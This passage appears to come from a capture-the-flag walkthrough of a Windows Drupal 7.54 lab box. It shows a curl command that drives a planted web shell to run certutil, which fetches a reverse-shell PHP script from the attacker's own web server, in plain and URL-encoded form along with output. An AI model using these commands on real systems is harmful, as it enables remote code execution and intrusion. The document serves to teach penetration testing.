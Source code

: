 We'll try and use the "certutil" windows tool that is included in most if not all Windows distributions in order to download our PHP script. The "curl" command we'll use is as follows:

> curl -X GET "http://10.10.10.9/rce.php?cmd=certutil.exe -urlcache -split -f http://10.10.14.10/rev.php C:\inetpub\drupal-7.54\rev.php"

The command does not work as is, and so we'll need to "URL encode" it. For this task, we used Cyberchef. Simply paste the payload into the input box, add the "URL Encode" operation to the "Recipe" and select the option to "Encode all special characters".

![](<../../.gitbook/assets/7 (2).JPG>)

Our final payload is as follows:

> curl -X GET "http://10.10.10.9/rce.php?cmd=certutil%2Eexe%20%2Durlcache%20%2Dsplit%20%2Df%20http%3A%2F%2F10%2E10%2E14%2E10%2Frev%2Ephp%20C%3A%5Cinetpub%5Cdrupal%2D7%2E54%5Crev%2Ephp"

Start a simple python3 web server to host our script:

```
└─$ sudo python3 -m http.server 80        
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

Run the command which downloads the reverse shell script, and then access the page to trigger the code execution:

```
└─$ curl -X GET "http://10.10.10.9/rce.php?cmd=certutil%2Eexe%20%2Durlcache%20%2Dsplit%20%2Df%20http%3A%2F%2F10%2E10%2E14%2E10%2Frev%2Ephp%20C%3A%5Cinetpub%5Cdrupal%2D7%2E54%5Crev%2Ephp"
****  Online  ****
  0000  ...
  2457
CertUtil: -URLCache command completed successfully.
      
└─$ curl -X GET http://10.10.10.9/rev.php
                                                                                                                                                            
```
